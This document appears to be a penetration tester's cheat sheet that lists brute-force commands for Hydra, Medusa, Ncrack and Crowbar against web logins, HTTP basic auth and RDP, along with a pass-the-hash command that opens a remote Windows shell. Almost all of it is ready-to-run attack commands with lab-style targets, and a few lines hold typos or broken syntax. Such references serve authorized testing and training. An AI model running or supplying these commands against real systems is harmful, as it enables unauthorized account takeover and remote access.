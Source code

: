 ## Hydra

Brute forcing login forms

```sh
hydra -l user -P wordlist.lst <FQDN/IP> http-post-form "/login:user=^USER^&^PASS^:F=Invalid" -f
```

```sh
hydra -l user -P wordlist.lst <FQDN/IP> http-post-form "/login:user=^USER^&^PASS^:S=logout.php" -f
```

Brute forcing basic HTTP auth

```sh
hydra -I -l bob -P /opt/rockyou.txt "http-get://10.10.6.224/protected:A=BASIC"
```
## Medusa

```sh
medusa -h <IP> -u user -P wordlist.lst -M <module> 
```

HTTP htaccess Attack with medusa (Basic Authentication)
Les pages avec les popus JS pour l'authentification qui utilise une protection `.htaccess`

```sh

medusa -h 192.168.45.130 -u user -P /opt/rocyou.txt -M http -m DIR:/dvwa/login.php 
```

## Ncrack

```sh
ncrack -vv -U user.lst -P /opt/rocyou.txt <target-ip>:<protocol>
```

## Crowbar

Remote Desktop Protocl Attack with Crowbar

```sh
#crowbar -b <protcol> -S <IP> -u user -C wordlist.lst -n 2
crowbar -b rdp -S 192.168.45.130/32 -u user -C /opt/rocyou.txt -n 1
```

Passing the hash in windows

```sh
pth-winexe -U 'user%LMHASH:NTHASH' //@TARGET_IP cmd.exe
```
